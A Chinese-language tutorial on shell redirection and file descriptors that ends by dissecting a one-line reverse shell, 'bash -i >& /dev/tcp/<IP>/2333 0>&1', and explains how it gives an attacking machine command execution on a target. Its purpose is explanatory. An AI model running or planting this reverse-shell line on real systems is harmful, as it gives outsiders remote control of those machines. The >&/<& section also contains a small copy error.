








## 简介

标准输出代表的文件描述符为1，标准错误输出为2，标准输入为0。

标准输出的内容就是根据输入的命令计算机执行得到结果然后输出在当前tty的内容。本质上当前tty会显示输出的原理就是执行输入命令的输出结果会写到1这个文件中，然后回显到当前tty。

同样的标准输入内容就是输入到当前tty中的要被命令执行的对象。本质上在tty上输入的命令执行的对象就是先被写到0中，然后被计算机执行，然后才会产生输出，写到1中，然后回显到当前tty。

**需要注意的是，这些重定向命令只在当时那行命令有效，如果想在整个tty有效，需要在加exec关键字。**

在使用>时默认不写任何数字代表标准输出，例如>output.txt代表将标准输出重定向到output.txt文件中，等价于1>output.txt。

同样的在使用<时默认不写任何数字代表标准输入，例如<input.txt代表将标准输入重定向到input.txt文件中，等价于0<input.txt。

## >、<

#### 1、">"代表将左边输出重定向到右边

```bash
command 1>output.txt
//代表将标准输出重定向到output.txt，也就代表command执行后所有应该到标准输出文件中的内容会被重定向输出到output.txt文件里，打开output.txt就能看到原先应该在标准输出中显示内容。也就是说原先应该显示在当前tty的内容被重定向到了output.txt中。
```

不重定向执行ls的结果，回显在当前tty



重定向输出ls的执行结果，没有在当前tty任何回显



但是在output.txt文件中拿到了整个执行的输出



#### 2、"<"代表将左边输入重定向到右边

```bash
command 0<input.txt
//代表将标准输入重定向到input.txt，也就代表所有应该从标准输入文件中（即当前tty）读取的command要执行的对象会被输入重定向到input.txt文件里，也就是说input.txt中的所有内容将会作为命令执行的对象被tty的command读取从而执行。
```

在不重定向输入时，是在当前tty输入，然后得到结果





在重定向输入时，是执行了输入重定向后的input.txt中的内容。(需要执行文件中的内容时，需要用bash命令，不加bash直接输入重定向并不会执行，**因为输入重定向只不过重定向了命令执行的对象，而不是重定向了命令**)







## >&、<&

1、

当n>&m时代表将文件描述符n**复制**到文件描述符m，如果文件描述符 m 没有对应以读模式打开的文件，则重定向报错，如果 m的值是连字符 -，则会关闭文件描述符n。如果没有提供文件描述符n，默认会使用文件描述符 1，也就是标准输出。

2、

当n>&m时代表将文件描述符n**复制**到文件描述符m，如果文件描述符 m 没有对应以写模式打开的文件，则重定向报错，如果 m的值是连字符 -，则会关闭文件描述符n。如果没有提供文件描述符n，默认会使用文件描述符 0，也就是标准输入。

## 一句话木马中的重定向

```bash
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
```

bash -i构建一个bash交互环境，然后将这个交互环境的标准输出重定向到了tcp连接上，因为构建了一个bash交互环境，这个bash执行命令的输出都会重定向到这个tcp连接上。**此时1其实就指向了这个tcp连接。**

/dev/tcp/47.xxx.xxx.72/2333代表打开一个tcp连接。

0>&1代表将0输出重定向到了1上，即标准输入重定向到了标准输出（1），即标准输入重定向到了tcp连接，因为bash环境的存在，tcp接受到的输入内容就可以直接被bash作为命令的对象执行，这样攻击机输入的内容就被靶机作为bash命令的对象直接执行了。

**由于在bash环境下，这个输入执行的结果又会被重定向到了tcp连接，从而攻击机输入的内容被靶机执行后又输出到了攻击机上。**

#### Ps:这里的重点时如何理解这个bash交互环境，其实>& /dev/tcp/47.xxx.xxx.72/2333 0>&1这个命令就是在建立的bash的交互环境中永久性的被执行了，输入在这个bash中永久性的重定向，输出也在这个bash中永久性的重定向了。